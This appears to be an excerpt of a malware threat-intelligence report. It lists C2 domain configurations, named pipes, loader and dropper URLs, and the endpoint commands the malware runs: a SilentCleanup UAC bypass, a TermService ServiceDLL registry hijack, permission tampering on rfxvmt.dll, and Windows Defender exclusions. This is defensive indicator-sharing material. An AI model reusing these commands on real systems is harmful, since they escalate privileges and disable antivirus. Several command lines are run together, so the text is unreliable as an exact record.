 ```
{'C2': ['hopeithelps.xyz', 'adsgjuhsdgubhu4.xyz', 'zbuurhbbc.cn', 'http://bromide.xyz/ssh.zip', 'http://sdsddgu.xyz/khkhkt'], 'PIPES': ['\\\\.\\pipe\\txtpipe', '\\\\.\\pipe\\anspipe'], 'URI': ['/ipa/b.php']}{'C2': ['asdjausg.cn', 'potuybze.xyz', 'asfuuvhv3083f.xyz', 'http://bromide.xyz/ssh.zip', 'http://sdsddgu.xyz/khkhkt'], 'PIPES': ['\\\\.\\pipe\\txtpipe', '\\\\.\\pipe\\anspipe'], 'URI': ['/ipa/b.php']}{'C2': ['afditnzurh.xyz', 'kbpsorjbus6.pw', 'aspdivhvy7a.cn', 'http://bromide.xyz/ssh.zip', 'http://sdsddgu.xyz/khkhkt'], 'PIPES': ['\\\\.\\pipe\\txtpipe', '\\\\.\\pipe\\anspipe'], 'URI': ['/moist/b.php']}{'C2': ['asdjausg.cn', 'potuybze.xyz', 'asfuuvhv3083f.xyz', 'http://bromide.xyz/ssh.zip', 'http://sdsddgu.xyz/khkhkt'], 'PIPES': ['\\\\.\\pipe\\txtpipe', '\\\\.\\pipe\\anspipe'], 'URI': ['/ipa/b.php']}{'C2': ['askduvjuz.xyz', 'pasobjub.xyz', 'pasgugbz3u4a.cn', 'http://bromide.xyz/ssh.zip', 'http://sdsddgu.xyz/khkhkt'], 'PIPES': ['\\\\.\\pipe\\txtpipe', '\\\\.\\pipe\\anspipe'], 'URI': ['/oiggb/b.php']}{'C2': ['askduvjuz.xyz', 'pvobijrrvvz.xyz', 'pafsovbhyda.cn', 'http://bromide.xyz/ssh.zip', 'http://sdsddgu.xyz/khkhkt'], 'PIPES': ['\\\\.\\pipe\\txtpipe', '\\\\.\\pipe\\anspipe'], 'URI': ['/arefgw/b.php']}{'C2': ['askduvjuz.xyz', 'soduvhyuvz.xyz', 'pafsovbhyda.cn', 'http://bromide.xyz/ssh.zip', 'http://sdsddgu.xyz/khkhkt'], 'PIPES': ['\\\\.\\pipe\\txtpipe', '\\\\.\\pipe\\anspipe'], 'URI': ['/zpsiig/b.php']}{'C2': ['dsfamsi4b.cn', 'asfjjasguasus.xyz', 'pssoduvnzud.xyz', 'http://bromide.xyz/ssh.zip', 'http://sdsddgu.xyz/khkhkt'], 'PIPES': ['\\\\.\\pipe\\txtpipe', '\\\\.\\pipe\\anspipe'], 'URI': ['/jndury/b.php']}{'C2': ['hitnaiguat.xyz', 'whereihjeu3.xyz', 'sagiai3agar.cn', 'http://bromide.xyz/ssh.zip', 'http://sdsddgu.xyz/khkhkt'], 'PIPES': ['\\\\.\\pipe\\txtpipe', '\\\\.\\pipe\\anspipe'], 'URI': ['/ctp/b.php']}{'C2': ['homate.xyz', 'psdgiigjsjavy3.xyz', 'microkgww2.cn', 'http://bromide.xyz/ssh.zip', 'http://sdsddgu.xyz/khkhkt'], 'PIPES': ['\\\\.\\pipe\\txtpipe', '\\\\.\\pipe\\anspipe'], 'URI': ['/resist/b.php']}{'C2': ['protosaur.xyz', 'gaiter12fa.xyz', 'dooter41ag.cn', 'http://bromide.xyz/ssh.zip', 'http://sdsddgu.xyz/khkhkt'], 'PIPES': ['\\\\.\\pipe\\txtpipe', '\\\\.\\pipe\\anspipe'], 'URI': ['/cerat/b.php']}{'C2': ['wheredoyougo.cn', 'afggaiir3a.xyz', 'gigiuuruyahv.cn', 'http://bromide.xyz/ssh.zip', 'http://sdsddgu.xyz/khkhkt'], 'PIPES': ['\\\\.\\pipe\\txtpipe', '\\\\.\\pipe\\anspipe'], 'URI': ['/seger/b.php']}{'C2': ['zalerha7315.xyz', 'agutagndie.cn', 'gpogjbuehuvh.xyz', 'http://bromide.xyz/ssh.zip', 'http://sdsddgu.xyz/khkhkt'], 'PIPES': ['\\\\.\\pipe\\txtpipe', '\\\\.\\pipe\\anspipe'], 'URI': ['/imp/b.php']}
```

PowerShell 加载程序辅助程序:

```
http://45.61.136.223/get/arch.php
http://45.61.136.223/get/getter.php
http://45.61.136.223/get/grep.php
http://45.61.136.223/get/m5.php
http://88.119.171.253/dropper.ps1
```

终点指标:

```
schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I | Out-Nullreg add "HKLM\system\currentcontrolset\services\TermService\parameters" /v ServiceDLL$env:username | out-file c:\windows\temp\usrnm.txttakeown.exe /A /F rfxvmt.dllicacls.exe rfxvmt.dll /inheritance:d
icacls.exe rfxvmt.dll /setowner "NT SERVICE\TrustedInstaller"
icacls.exe rfxvmt.dll /grant "NT SERVICE\TrustedInstaller:F"icacls.exe rfxvmt.dll /remove "NT AUTHORITY\SYSTEM"
icacls.exe rfxvmt.dll /grant "NT AUTHORITY\SYSTEM:RX"
#
icacls.exe rfxvmt.dll /remove "BUILTIN\Administrators"
icacls.exe rfxvmt.dll /grant "BUILTIN\Administrators:RX"write-host inst
$Job = Start-Job -ScriptBlock {Add-MpPreference -ExclusionPath "C:\windows\branding\*"}
$Job | Wait-Job -Timeout 15
$Job | Stop-Job
$Job =Start-Job -ScriptBlock {Add-MpPreference -ExclusionPath "C:\users\wgautilacc\desktop\*" -force}
$Job | Wait-Job -Timeout 15
$Job | Stop-Job
$Job =Start-Job -ScriptBlock {Add-MpPreference -ExclusionPath "C:\users\mirrors\desktop\*"}
$Job | Wait-Job -Timeout 15
$Job | Stop-Job
#Add-MpPreference -ExclusionPath "C:\windows\branding\*"
#Add-MpPreference -ExclusionPath "C:\users\wgautilacc\desktop\*" -force
#Add-MpPreference -ExclusionPath "C:\users\mirrors\desktop\*"
```